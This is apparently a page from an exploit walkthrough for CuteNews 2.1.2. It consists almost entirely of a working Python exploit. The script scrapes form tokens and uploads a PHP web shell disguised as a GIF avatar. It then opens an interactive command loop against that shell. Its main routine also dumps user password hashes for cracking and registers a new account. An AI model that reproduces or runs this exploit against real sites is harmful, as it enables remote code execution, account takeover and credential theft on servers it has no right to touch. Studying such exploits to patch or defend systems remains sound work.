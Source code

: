 This part of the exploit creates a random string and uses it as the credentials to create a new account on `CuteNews 2.1.2` powered website.

---

send_payload
```python

payload = "GIF8;\n<?php system($_REQUEST['cmd']) ?>"

def send_payload(payload):
    global ip
    token = sess.get(f"{ip}/CuteNews/index.php?mod=main&opt=personal").text
    signature_key = re.search('signature_key" value="(.*?)"', token).group(1)
    signature_dsi = re.search('signature_dsi" value="(.*?)"', token).group(1)
    logged_user = re.search('disabled="disabled" value="(.*?)"', token).group(1)
    print (f"signature_key: {signature_key}")
    print (f"signature_dsi: {signature_dsi}")
    print (f"logged in user: {logged_user}")

    files = {
        "mod" : (None, "main"),
        "opt" : (None, "personal"),
        "__signature_key" : (None, f"{signature_key}"),
        "__signature_dsi" : (None, f"{signature_dsi}"),
        "editpassword" : (None, ""),
        "confirmpassword" : (None, ""),
        "editnickname" : (None, logged_user),
        "avatar_file" : (f"{logged_user}.php", payload),
        "more[site]" : (None, ""),
        "more[about]" : (None, "")
    }
    payload_send = sess.post(f"{ip}/CuteNews/index.php", files = files).text
    print("============================\nDropping to a SHELL\n============================")
    while True:
        print ()
        command = input("command > ")
        postdata = {"cmd" : command}
        output = sess.post(f"{ip}/CuteNews/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)
        if 404 == output.status_code:
            print ("sorry i can't find your webshell try running the exploit again")
            sys.exit()
        else:
            output = re.sub("GIF8;", "", output.text)
            print (output.strip())

if __name__ == "__main__":
    print ("================================================================\nUsers SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN\n================================================================")
    extract_credentials()
    print ("================================================================")
    print()
    print ("=============================\nRegistering a users\n=============================")
    register()
    print()
    print("=======================================================\nSending Payload\n=======================================================")
    send_payload(payload)
    print ()
```
